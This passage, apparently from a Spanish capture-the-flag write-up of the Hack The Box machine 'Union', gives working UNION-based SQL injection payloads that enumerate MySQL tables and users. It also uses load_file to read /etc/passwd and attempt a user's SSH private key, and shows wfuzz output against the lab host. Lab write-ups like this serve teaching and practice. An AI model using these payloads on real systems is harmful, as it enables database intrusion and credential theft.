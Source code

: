 ```
Desde burpsuite, en el campo players:

admin' union select group_concat(table_name) from information_schema.tables where table_schema="mysql"-- -
--> Saldrían todas las tablas metiendo el group_concat. Más fácil. Una de ellas es la tabla "user".

admin' union select group_concat(column_name) from information_schema.columns where table_schema="mysql" and table_name="user"-- -
--> La más intersante es User


admin' union select group_concat(User) from mysql.user-- -
--> uhc. Usuario interesante "uhc" su contraseña podría ser la flag. Pero pruebo y nada.
--> También se podía haber visto ese usuario con la siguiente inyección:
guise' union select user()-- -

--> No encuentro nada interesante más por la tabla user, voy a intentarlo por la tabla db.

admin' union select column_name from information_schema.columns where table_schema="mysql" and table_name="db" limit 2,1-- -
--> User. 
--> Tampoco veo ninguna columna password..
```

Hay un tipo de inyección llamada **load_file**. Intentaré ver algún recurso de la máquina. Y puedo!!!!

![etc_password]({{ 'assets/img/writeups/Union/etcPasswd.png' | relative_url }}){: .center-image }

Podemos cargar recursos de la máquina objetivo. Además vemos un usuario interesante, que también vimos enumerando la base de datos, el usuario **uhc**.

Bien, vamos a ver si tiene id_rsa para poder conectarme por ssh. La instrucción sería en el campo player=`admin' union select load_file("/home/uhc/.ssh/id_rsa")-- -`. Pero nada.. Lo que si puedo ver es la flag de usuario `admin' union select load_file("/home/uhc/user.txt")-- -`.

También está el usuario **htb** lo sabemos por las tty, que suelen ser /bin/bash o /bin/ssh. Pruebo si tiene id_rsa pero tampoco. También intento conectarme por ssh con este usuario y la flag de antes **UHC{F1rst_5tep_2_Qualify}** pero nada.

Aquí me quedo pensando un rato..Lo importante de hacer un buen fuzzing al principio, o al menos, acordarse en este punto que lo puedes hacer mejor. La web interpreta php y nuestro fuzzing para archivos php ha sido inexistente. Ahora que podemos leer archivos de la máquina con **load_file** intentaré sacar toda la info que pueda.
```
❯ wfuzz -c --hc=404 -t 150 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.128/FUZZ.php

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.128/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================
                             
000000009:   200        42 L     93 W       1220 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000003:   200        42 L     93 W       1220 Ch     "# Copyright 2007 James Fisher"                                                                                        
```